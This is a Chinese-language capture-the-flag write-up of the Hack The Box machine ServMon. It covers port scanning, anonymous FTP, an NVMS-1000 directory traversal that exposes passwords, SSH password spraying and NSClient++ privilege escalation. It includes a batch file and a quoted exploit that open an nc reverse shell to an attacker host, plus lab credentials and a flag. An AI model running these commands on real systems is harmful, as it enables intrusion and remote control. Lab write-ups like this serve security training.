

## 信息收集

### 端口扫描
#### 全端口扫描
~~~
┌──(lizi㉿lizi)-[~/ServMon]
└─$ sudo nmap -sT -p- --min-rate 2000 10.10.10.184 -oA nmap/ports
[sudo] password for lizi:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 15:31 CST
Warning: 10.10.10.184 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.184
Host is up (0.080s latency).
Not shown: 64905 closed tcp ports (conn-refused), 613 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 63.09 seconds
~~~
#### 默认脚本扫描
~~~
┌──(lizi㉿lizi)-[~/ServMon]                                                        └─$ sudo nmap -sT -sV -sC -p 21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 10.10.10.184 -oA nmap/sC                                                           Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 15:59 CST
Nmap scan report for 10.10.10.184
Host is up (0.11s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  06:35PM       <DIR>          Users
| ftp-syst:
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings:
|   GetRequest, HTTPOptions, RTSPRequest:
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo:
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL:
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
| fingerprint-strings:
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest:
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.94SVN%I=7%D=12/5%Time=67515D79%P=x86_64-pc-linux-gnu%r(N
SF:ULL,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text
SF:/html\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\
SF:r\n\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20
SF:text/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo
SF::\x20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x
SF:20XHTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml
SF:1/DTD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w
SF:3\.org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x
SF:20\x20\x20\x20\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\
SF:n")%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/
SF:html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20
SF:\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHT
SF:ML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD
SF:/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.or
SF:g/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x2
SF:0\x20\x20\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r
SF:(RTSPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\
SF:r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\
SF:r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x2
SF:01\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtm
SF:l1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/199
SF:9/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20
SF:\x20\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.94SVN%T=SSL%I=7%D=12/5%Time=67515D82%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocat
SF:ion:\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\x12\x02\x18\0\x1aE\n\x07workers\x12\x0b\n\x04jobs\x12\x
SF:03\x18\x8b\x02\x12")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Leng
SF:th:\x2018\r\n\r\nDocument\x20not\x20found")%r(FourOhFourRequest,36,"HTT
SF:P/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found"
SF:)%r(RTSPRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDo
SF:cument\x20not\x20found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-L
SF:ength:\x2018\r\n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -13m58s
| smb2-time:
|   date: 2024-12-05T07:48:06
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 147.37 seconds
~~~
#### 漏洞脚本扫描
~~~
┌──(lizi㉿lizi)-[~/ServMon]
└─$ sudo nmap -sT --script=vuln -p 21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 10.10.10.184 -oA nmap/vuln
[sudo] password for lizi:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 16:00 CST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.184
Host is up (0.11s latency).

PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
|_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
                                                                                                                                                                                                                                     Nmap done: 1 IP address (1 host up) scanned in 546.65 seconds
~~~
#### UDP 扫描
~~~
┌──(kali㉿kali)-[~/servmon]
└─$ sudo nmap -sU --top-ports 20 10.10.10.184 -oA nmap/UDP     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 23:29 EST
Nmap scan report for 10.10.10.184
Host is up (0.076s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   open|filtered ntp
135/udp   closed        msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open|filtered snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown

Nmap done: 1 IP address (1 host up) scanned in 14.14 seconds

~~~

### FTP 信息收集
扫描结果上写可以匿名登陆
~~~
┌──(kali㉿kali)-[~/servmon]
└─$ ftp 10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49691|)
125 Data connection already open; Transfer starting.
02-28-22  06:35PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49693|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM       <DIR>          Nadine
02-28-22  06:37PM       <DIR>          Nathan
226 Transfer complete.
ftp> cd Nadine
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49695|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM                  168 Confidential.txt
226 Transfer complete.
ftp> get Confidential.txt
local: Confidential.txt remote: Confidential.txt
229 Entering Extended Passive Mode (|||49697|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************************************************************************|   168        1.05 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 6 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
168 bytes received in 00:00 (0.86 KiB/s)
ftp> cd ..
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49698|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM       <DIR>          Nadine
02-28-22  06:37PM       <DIR>          Nathan
226 Transfer complete.
ftp> cd Nathan
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49700|)
125 Data connection already open; Transfer starting.
02-28-22  06:36PM                  182 Notes to do.txt
226 Transfer complete.
ftp> get Notes\ to\ do.txt
local: Notes to do.txt remote: Notes to do.txt
229 Entering Extended Passive Mode (|||49702|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************************************************************************|   182        0.82 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 4 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
182 bytes received in 00:00 (0.70 KiB/s)
ftp> quit
221 Goodbye.

~~~

拿到两个文件

~~~
┌──(kali㉿kali)-[~/servmon]
└─$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine                                                                                                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/servmon]
└─$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint    
~~~

### Web 信息收集
访问web界面，发现是nvms1000，试了几下弱口令失败后搜索公开漏洞利用

~~~
┌──(kali㉿kali)-[~/servmon]
└─$ searchsploit nvms                                    
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                                                                                                                                                                                                                                 | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modification                                                                                                                                                                                                | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow                                                                                                                                                                                                              | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                                                                                                                                                                                                                             | hardware/webapps/48311.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/servmon]
└─$ searchsploit nvms -m 47774                               
[!] Could not find EDB-ID #

  Exploit: NVMS 1000 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/47774
     Path: /usr/share/exploitdb/exploits/hardware/webapps/47774.txt
    Codes: N/A
 Verified: False
File Type: Unicode text, UTF-8 text
Copied to: /home/kali/servmon/47774.txt

                                                                                                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/servmon]
└─$ cat 47774.txt 
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan Türle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1                        
~~~

burp验证一下，发现漏洞存在

## 漏洞利用

### NVMS 1000 目录遍历获取凭据

通过前面留下的信息，nathan的桌面上留存着passwords.txt,进行读取

拿到这7个密码

~~~
1nsp3ctTh3Way2Mars!

Th3r34r3To0M4nyTrait0r5!

B3WithM30r4ga1n5tMe

L1k3B1gBut7s@W0rk

0nly7h3y0unGWi11F0l10w

IfH3s4b0Utg0t0H1sH0me

Gr4etN3w5w17hMySk1Pa5$
~~~

### SSH 登录

在web端尝试登录全部失败，试一下ssh

~~~
┌──(kali㉿kali)-[~/servmon]
└─$ nxc ssh 10.10.10.184 -u nathan -p passwords.txt 
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] nathan:1nsp3ctTh3Way2Mars!
SSH         10.10.10.184    22     10.10.10.184     [-] nathan:Th3r34r3To0M4nyTrait0r5!
SSH         10.10.10.184    22     10.10.10.184     [-] nathan:B3WithM30r4ga1n5tMe
SSH         10.10.10.184    22     10.10.10.184     [-] nathan:L1k3B1gBut7s@W0rk
SSH         10.10.10.184    22     10.10.10.184     [-] nathan:0nly7h3y0unGWi11F0l10w
SSH         10.10.10.184    22     10.10.10.184     [-] nathan:IfH3s4b0Utg0t0H1sH0me
SSH         10.10.10.184    22     10.10.10.184     [-] nathan:Gr4etN3w5w17hMySk1Pa5$
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/servmon]
└─$ nxc ssh 10.10.10.184 -u nadine -p passwords.txt 
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] nadine:1nsp3ctTh3Way2Mars!
SSH         10.10.10.184    22     10.10.10.184     [-] nadine:Th3r34r3To0M4nyTrait0r5!
SSH         10.10.10.184    22     10.10.10.184     [-] nadine:B3WithM30r4ga1n5tMe
SSH         10.10.10.184    22     10.10.10.184     [+] nadine:L1k3B1gBut7s@W0rk  Windows - Shell access!

~~~

登陆成功

~~~
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

nadine@SERVMON C:\Users\Nadine>systeminfo
ERROR: Access denied

nadine@SERVMON C:\Users\Nadine>net user

User accounts for \\SERVMON

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
Nadine                   Nathan                   WDAGUtilityAccount
The command completed successfully.

~~~

## 权限提升

### NSClient++ 提权

查看一下8443端口开启的服务

~~~
PS C:\Program Files\NSClient++> gc .\nsclient.ini                                                                                                                                                                                           
# If you want to fill this file with all available options run the following command:                                                                                                                                                       
#   nscp settings --generate --add-defaults --load-all                                                                                                                                                                                      
# If you want to activate a module and bring in all its options use:                                                                                                                                                                        
#   nscp settings --activate-module <MODULE NAME> --add-defaults                                                                                                                                                                            
# For details run: nscp settings --help                                                                                                                                                                                                     
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
; in flight - TODO                                                                                                                                           
[/settings/default]                                               
                                                                             
; Undocumented key                                                                                                                                           
password = ew2x6SsGTxjRwXOT                                                  
                                                                                                                    
; Undocumented key                                                                                                                                           
allowed hosts = 127.0.0.1                                                                                           
                                                                              

; in flight - TODO                                                            
[/settings/NRPE/server]                                                       

; Undocumented key                                                            
ssl options = no-sslv2,no-sslv3                                               

; Undocumented key                                                            
verify mode = peer-cert                                                       

; Undocumented key                                                            
insecure = false                                                              

                                                                                                                                                            
; in flight - TODO                                                            
[/modules]                                                                                                                                                   

; Undocumented key                                                                                                                                           
CheckHelpers = disabled                                                                                                                                      

; Undocumented key                                                                                                                                           
CheckEventLog = disabled                                                                                                                                     

; Undocumented key                                                                                                                                           
CheckNSCP = disabled                                                                                                                                         

; Undocumented key                                                                                                                                           
CheckDisk = disabled                                                                                                                                         

; Undocumented key                                                                                                                                           
CheckSystem = disabled                                                                                                                                       

; Undocumented key                                                                                                                                           
WEBServer = enabled                                                                                                                                          

; Undocumented key                                                                                                                                           
NRPEServer = enabled                                                                                                                                         

; CheckTaskSched - Check status of your scheduled jobs.                                                                                                      
CheckTaskSched = enabled                                                                                                                                     

; Scheduler - Use this to schedule check commands and jobs in conjunction with for instance passive monitoring through NSCA                                  
Scheduler = enabled                                                                                                                                          

; CheckExternalScripts - Module used to execute external scripts                                                                                             
CheckExternalScripts = enabled                                                                                                                               

; Script wrappings - A list of templates for defining script commands. Enter any command line here and they will be expanded by scripts placed under the wrapped scripts section. %SCRIPT% will be replaced by the actual script an %ARGS% w                                                                               
ill be replaced by any given arguments.                                                                                                                      
[/settings/external scripts/wrappings]                                                                                                                       

; Batch file - Command used for executing wrapped batch files                                                                                                
bat = scripts\\%SCRIPT% %ARGS%                                                                                                                               

; Visual basic script - Command line used for wrapped vbs scripts                                                                                            
vbs = cscript.exe //T:30 //NoLogo scripts\\lib\\wrapper.vbs %SCRIPT% %ARGS%                                                                                  

; POWERSHELL WRAPPING - Command line used for executing wrapped ps1 (powershell) scripts                                                                     
ps1 = cmd /c echo If (-Not (Test-Path "scripts\%SCRIPT%") ) { Write-Host "UNKNOWN: Script `"%SCRIPT%`" not found."; exit(3) }; scripts\%SCRIPT% $ARGS$; exit($lastexitcode) | powershell.exe /noprofile -command -                                                                                                         

; External scripts - A list of scripts available to run from the CheckExternalScripts module. Syntax is: `command=script arguments`                          
[/settings/external scripts/scripts]                                                                                                                         

; Schedules - Section for the Scheduler module.                                                                                                              
[/settings/scheduler/schedules]                                                                                                                              

; Undocumented key                                                                                                                                           
foobar = command = foobar                                                                                                                                    

; External script settings - General settings for the external scripts module (CheckExternalScripts).                                                        
[/settings/external scripts]                                                                                                                                 
allow arguments = true                                                                                                                                       
PS C:\Program Files\NSClient++>                                                                                                                              
[1] 0:[tmux]*Z                                                                                                                                            
~~~

显示当前的密码

~~~
PS C:\Program Files\NSClient++> .\nscp web password --display
Current password: ew2x6SsGTxjRwXOT
~~~

nsclient的web服务似乎访问有问题

试一下转发到其他端口，ssh建立隧道转发

~~~
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184 
~~~

成功登录

搜索公开漏洞利用，发现有提权利用

~~~
┌──(kali㉿kali)-[~/servmon]
└─$ searchsploit nsclient         
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution                                                                                                                                                                                                                                 | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                                                                                                                                                                                                                                                | windows/local/46802.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

~~~

下载一个下来查看怎么利用

~~~
┌──(kali㉿kali)-[~/servmon]                                                                                                                                                                                                                                                                                                                                              
└─$ cat 46802.txt                                                                                                                                                                                                                                                                                                                                                        
Exploit Author: bzyo                                                                                                                                                                                                                                                                                                        
Twitter: @bzyo_                                                                                                                                                                                                                                                                                                             
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation                                                                                                                                                                                                                                                                   
Date: 05-05-19                                                                                                                                                                                                                                                                                                              
Vulnerable Software: NSClient++ 0.5.2.35                                                                                                                                                                                                                                                                                    
Vendor Homepage: http://nsclient.org/                                                                                                                                                                                                                                                                                       
Version: 0.5.2.35                                                                                                                                                                                                                                                                                                           
Software Link: http://nsclient.org/download/                                                                                                                                                                                                                                                                                
Tested on: Windows 10 x64                                                                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                            
Details:                                                                                                                                                                                                                                                                                                                    
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.             

The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.                                                     

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
        C:\Program Files\NSClient++>nscp web -- password --display
        Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
        @echo off
        c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine                                                    
        nc -nlvvp 443                                                                     

5. Add script foobar to call evil.bat and save settings                                   
- Settings > External Scripts > Scripts                                                   
- Add New                                                                                 
        - foobar                                                                          
                command = c:\temp\evil.bat                                                

6. Add schedulede to call script every 1 minute and save settings                         
- Settings > Scheduler > Schedules                                                        
- Add new                                                                                 
        - foobar                                                                          
                interval = 1m                                                             
                command = foobar                                                          

7. Restart the computer and wait for the reverse shell on attacking machine               
        nc -nlvvp 443                                                                     
        listening on [any] 443 ...                                                        
        connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671                   
        Microsoft Windows [Version 10.0.17134.753]                                        
        (c) 2018 Microsoft Corporation. All rights reserved.                              

        C:\Program Files\NSClient++>whoami                                                
        whoami                                                                            
        nt authority\system                                                               

Risk:                                                                                     
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local System    
~~~

在web界面启动这两个模块
- CheckExternalScripts
- Scheduler

编写eval.bat

~~~
┌──(kali㉿kali)-[~/servmon]
└─$ cat eval.bat 
@echo off
C:\Users\Nadine\Desktop\nc64.exe 10.10.16.13 443 -e cmd.exe

~~~

把eval.bat也传过去

~~~
PS C:\Users\Nadine\Desktop> iwr http://10.10.16.13/eval.bat -outfile eval.bat
PS C:\Users\Nadine\Desktop> ls

    Directory: C:\Users\Nadine\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/13/2024   5:11 AM             71 eval.bat
-a----       12/13/2024   4:57 AM          45272 nc64.exe
-ar---       12/13/2024   2:20 AM             34 user.txt

~~~

这里多次尝试重启服务失败，但是github上有另外的脚本

~~~
┌──(kali㉿kali)-[~/servmon/NSClient-0.5.2.35---Privilege-Escalation]
└─$ sudo python exploit.py "C:\\Users\\nadine\\desktop\\eval.bat" https://127.0.0.1:8443 ew2x6SsGTxjRwXOT
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1100: InsecureRequestWarning: Unverified HTTPS request is being made to host '127.0.0.1'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
<Response [200]>
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1100: InsecureRequestWarning: Unverified HTTPS request is being made to host '127.0.0.1'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(

~~~

收到shell

~~~
┌──(kali㉿kali)-[~/servmon]
└─$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.13] from (UNKNOWN) [10.10.10.184] 49753
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

~~~

得到rootflag

~~~
C:\Users\Administrator\Desktop>type root.txt
type root.txt
c2630bfc8f0c3d32fe6f63a9cbd89864

~~~

网络很差的一台靶机，体验并不是很好
